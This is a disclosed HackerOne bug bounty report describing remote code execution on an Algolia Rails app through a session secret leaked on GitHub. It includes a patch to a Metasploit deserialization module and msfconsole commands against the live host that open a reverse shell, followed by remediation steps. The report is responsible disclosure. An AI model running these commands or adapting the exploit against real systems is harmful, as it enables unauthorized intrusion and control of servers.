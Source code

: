 # RCE on facebooksearch.algolia.com

## Report Details
- **Report ID**: 134321
- **URL**: https://hackerone.com/reports/134321
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-04-25T05:47:36.506Z
- **Disclosed**: 2016-10-01T15:24:10.322Z

## Reporter
- **Username**: michiel
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: algolia

## Vulnerability Information
While doing recon on Algolia, I found that the session secret for facebooksearch.algolia.com has been committed to a **public** GitHub repository. Since the Rails app running at `facebooksearch.algolia.com` is using `CookieStore` as the session storage, this means an attacker knowing the session secret can craft any cookie that will then be accepted by the server.

Cookie values are deserialized (unmarshalled) server-side. That combined with knowing the session secret creates the dangerous opportunity for an RCE. The attacker can sign a cookie that contains a Ruby object that evals arbitrary code when it is deserialized on the server side. The concept is explained in depth here: https://charlie.bz/blog/rails-3.2.10-remote-code-execution. 

# Where did I find the session secret?
I used [Gitrob](https://github.com/michenriksen/gitrob) to scan all of Algolia's public repositories (plus repositories from employees) and extract everything that is interesting. The `secret_token.rb` initializer immediately caught my attention since it usually contains the `secret_key_base`, which should never be public. 

The token can be found here: https://github.com/algolia/facebook-search/commit/f3adccb5532898f8088f90eb57cf991e2d499b49#diff-afe98573d9aad940bb0f531ea55734f8R12

# Proof of Concept
@joernchen developed a ready to go proof of concept for this vulnerability and submitted it to the [Metasploit Framework](http://www.darkoperator.com/installing-metasploit-in-ubunt/): https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/rails_secret_deserialization.rb

Since the version of the exploit doesn't take cookies with `-` into account, here is a small patch to allow the exploit to work on the `_facebook-search_session` cookie. Here's the patch for the exploit: 

```diff
     if res && !res.get_cookies.empty?
-      match = res.get_cookies.match(/([_A-Za-z0-9]+)=([A-Za-z0-9%]*)--([0-9A-Fa-f]+);/)
+      match = res.get_cookies.match(/([_A-Za-z0-9\-]+)=([A-Za-z0-9%]*)--([0-9A-Fa-f]+);/)
     end
```

With that patch applied, you can run the PoC from `msfconsole` by following these commands:

```bash
# setting up
use exploit/multi/http/rails_secret_deserialization
set secret "<grab-from-github-url>"
set rhost facebooksearch.algolia.com
set railsversion 4
set targeturi /auth/facebook

# and then run
exploit

# when successful, a reverse shell will be established
# this allows you to run arbitrary commands
```

As a proof of concept, I ran `id`:

```
id
uid=1000(prod) gid=1000(prod) groups=1000(prod)
```

But since that is very generic, I also created http://facebooksearch.algolia.com/hackerone.txt with the text "PoC by michiel" to proof regular write access is possible as well. 

# Remediation
Switch `config/initializers/secret_token.rb` to use an environment variable (e.g. `ENV['SECRET_KEY_BASE']`). You must also generate a new token because the current secret is compromised. A new secret can be generated by running `rake secret` from the command line. Make sure the new secret does not leak in git commit history. 



## Attachments
No attachments
